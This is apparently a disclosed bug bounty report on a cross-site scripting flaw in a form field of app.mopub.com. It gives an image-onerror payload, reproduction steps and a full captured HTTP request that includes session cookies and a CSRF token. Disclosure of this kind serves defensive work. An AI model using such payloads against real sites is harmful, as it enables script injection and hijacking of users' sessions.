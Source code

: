 # XSS on https://app.mopub.com/reports/custom/add/ [new-d1]

## Report Details
- **Report ID**: 692352
- **URL**: https://hackerone.com/reports/692352
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-09-11T15:00:01.430Z
- **Disclosed**: 2019-12-07T17:25:49.754Z

## Reporter
- **Username**: c00lbugs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Parameter**
new-d1

**Payload**
</img><img src=x onerror=alert(domain)>

**Steps to reproduce**
1. Go to URL: https://app.mopub.com/reports/custom/add/
2. Start burp suite proxy, intercept on.
4. Enter payload in vulnerable parameter.
3. click on Run and Save button.
4. You will see java-script getting executed. 

##POST Request
```
POST /reports/custom/add/ HTTP/1.1
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://app.mopub.com/reports/custom/
X-CSRFToken: ITzZsPAjFJeRBqKUKodU5C4w2lu2x5MG7Gec9L8jtqMOVilWX7gPTxwsXcgIloIR
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------200821510612490
Content-Length: 1690
Connection: close
Cookie: _gcl_au=1.1.1687186367.1563287045; _ga=GA1.2.1543739358.1563287048; csrftoken=ITzZsPAjFJeRBqKUKodU5C4w2lu2x5MG7Gec9L8jtqMOVilWX7gPTxwsXcgIloIR; mp__mixpanel=%7B%22distinct_id%22%3A%20%2216bfb2ba1103c5-0143fdd5f3a3c58-4c312f7f-e1000-16bfb2ba111485%22%2C%22%24device_id%22%3A%20%2216bfb2ba1103c5-0143fdd5f3a3c58-4c312f7f-e1000-16bfb2ba111485%22%2C%22accountKey%22%3A%20%22%22%2C%22accessLevel%22%3A%20%22%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fwww.mopub.com%2F%22%2C%22%24initial_referring_domain%22%3A%20%22www.mopub.com%22%7D; mp_mixpanel__c=1; sessionid=p49r0bbeqb3laimfoii6vcny4yxbv6ww; mp_c99579c4804fba6b8aeed7a911581652_mixpanel=%7B%22distinct_id%22%3A%20%22d897f99976a646f5a619e52ed44bbb80%22%2C%22%24initial_referrer%22%3A%20%22https%3A%2F%2Fapp.mopub.com%2Faccount%2Flogin%2F%3Fnext%3D%2Fdashboard%2F%22%2C%22%24initial_referring_domain%22%3A%20%22app.mopub.com%22%2C%22accessLevel%22%3A%20%22member%22%2C%22accountKey%22%3A%20%22aeb905f4d0984a02be8a00d27aae73df%22%2C%22__mps%22%3A%20%7B%7D%2C%22__mpso%22%3A%20%7B%7D%2C%22__mpus%22%3A%20%7B%7D%2C%22__mpa%22%3A%20%7B%7D%2C%22__mpu%22%3A%20%7B%7D%2C%22__mpr%22%3A%20%5B%5D%2C%22__mpap%22%3A%20%5B%5D%2C%22%24user_id%22%3A%20%22d897f99976a646f5a619e52ed44bbb80%22%2C%22%24had_persisted_distinct_id%22%3A%20true%2C%22%24device_id%22%3A%20%22285f16e8e3a64ffc9bcc629faccb3d23%22%7D

-----------------------------200821510612490
Content-Disposition: form-data; name="new-saved"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-name"

hello xss
-----------------------------200821510612490
Content-Disposition: form-data; name="new-interval"

yesterday
-----------------------------200821510612490
Content-Disposition: form-data; name="new-start"

09/10/2019
-----------------------------200821510612490
Content-Disposition: form-data; name="new-end"

09/10/2019
-----------------------------200821510612490
Content-Disposition: form-data; name="new-sched_interval"

none
-----------------------------200821510612490
Content-Disposition: form-data; name="new-recipients"

ganesh@mailinator.com
-----------------------------200821510612490
Content-Disposition: form-data; name="new-d1"

app</img><img src=x onerror=alert(domain)>
-----------------------------200821510612490
Content-Disposition: form-data; name="new-d2"


-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_attempts_or_reqs"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_impressions"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_clicks"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_revenue"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_ctr"

on
-----------------------------200821510612490
Content-Disposition: form-data; name="new-show_conversions"

on
-----------------------------200821510612490--

```

{F580318}

{F580319}

{F580316}

{F580317}

## Impact

Cross-site scripting is a flaw that allows users to inject HTML or JavaScript code into a page enabling arbitrary input. There are two main variants of XSS, stored and reflected, DOM.

## Attachments
- Annotation_2019-09-11_202218.JPG
- Annotation_2019-09-11_202118.JPG
- Annotation_2019-09-11_202251.JPG
- Annotation_2019-09-11_202806.JPG
